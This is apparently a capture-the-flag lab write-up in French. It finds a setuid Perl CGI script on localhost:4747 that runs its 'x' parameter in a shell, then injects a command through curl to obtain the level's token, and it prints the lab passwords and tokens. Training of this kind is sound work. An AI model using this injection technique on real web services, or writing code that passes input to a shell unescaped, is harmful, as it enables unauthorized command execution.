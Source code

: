 ## Step 1: Login
`su level04`

**password:** qi0maab88jeaj46qoumi7maus

## Step 2: Find flag

`ls -la`
> -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

On repere le s (fichier qui s'execute par un autre uuid)

`cat level04.pl`

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On en deduit qu'un serveur est lance sur localhost:4747

On execute le shell depuis le parametre x

```
curl localhost:4747?x=\`getflag\`
```
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

